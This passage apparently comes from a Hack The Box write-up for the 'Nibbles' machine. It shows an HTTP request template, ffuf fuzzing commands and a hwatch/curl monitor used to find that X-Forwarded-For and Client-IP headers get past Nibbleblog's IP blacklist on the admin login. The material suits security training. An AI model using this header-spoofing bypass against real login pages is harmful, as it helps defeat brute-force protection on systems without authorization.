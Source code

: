 
#### Fuzz header to bypass IP blacklist

Now I will fuzz some IP headers to check if I can bypass the blacklist

```bash
┌──(bravosec㉿fsociety)-[~/htb/Nibbles]
└─$ cp login.req login_bypass.req

┌──(bravosec㉿fsociety)-[~/htb/Nibbles]
└─$ vi login_bypass.req
```

> `login_bypass.req`

```http
POST /nibbleblog/admin.php HTTP/1.1
Host: nibbles.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 32
Origin: http://nibbles.htb
Connection: close
Referer: http://nibbles.htb/nibbleblog/admin.php
Cookie: PHPSESSID=7hhg29abtivtrttjqnu82ic4f3
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1
FUZZ: 127.0.0.1

username=admin&password=x
```

Monitor changes on the page via **hwatch**

```bash
hwatch -c -d -n 1 'curl -s http://nibbles.htb/nibbleblog/content/private/users.xml|xmllint --format -'
```

Start fuzzing (The payloads were from **[dontgo403](https://github.com/devploit/dontgo403)**)

```bash
ffuf -c -request login.req -request-proto http -w /opt/sectools/web/Bypasses/dontgo403/payloads/headers -r -fs 48
```

- `X-Forwarded-For` and `Client-IP` worked!

![](/assets/obsidian/238f07e6315b995057e570cad86680cd.png)
